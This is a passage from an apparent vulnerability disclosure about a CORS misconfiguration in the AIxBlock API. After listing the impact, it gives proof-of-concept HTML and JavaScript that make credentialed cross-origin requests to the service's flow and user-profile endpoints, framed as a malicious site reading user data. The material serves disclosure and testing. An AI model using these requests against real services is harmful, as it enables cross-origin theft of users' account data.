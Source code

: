 ### Technical Impact
- **Confidentiality**: Exposure of sensitive data to unauthorized origins
- **Integrity**: Potential for cross-origin data manipulation
- **Availability**: Resource exhaustion through cross-origin API abuse

## Proof of Concept

### Step 1: Cross-Origin Request Test
```html
<!DOCTYPE html>
<html>
<head>
    <title>CORS Test</title>
</head>
<body>
    <script>
        // Test cross-origin request to AIxBlock API
        fetch('https://api.aixblock.io/v1/flows', {
            method: 'GET',
            headers: {
                'Content-Type': 'application/json',
                'Authorization': 'Bearer user-token'
            },
            credentials: 'include'
        })
        .then(response => response.json())
        .then(data => {
            console.log('Cross-origin data access:', data);
            // Data successfully retrieved from malicious origin
        })
        .catch(error => {
            console.log('CORS blocked:', error);
        });
    </script>
</body>
</html>
```

### Step 2: Credential Theft Simulation
```javascript
// Malicious site attempting to access user data
const maliciousRequest = async () => {
    try {
        const response = await fetch('https://api.aixblock.io/v1/user/profile', {
            method: 'GET',
            credentials: 'include',  // Include cookies
            headers: {
                'Authorization': 'Bearer stolen-token'
            }
        });
        
        const userData = await response.json();
        // Successfully retrieved user data from malicious origin
        console.log('Stolen user data:', userData);
    } catch (error) {
        console.log('Request blocked:', error);
    }
};
```
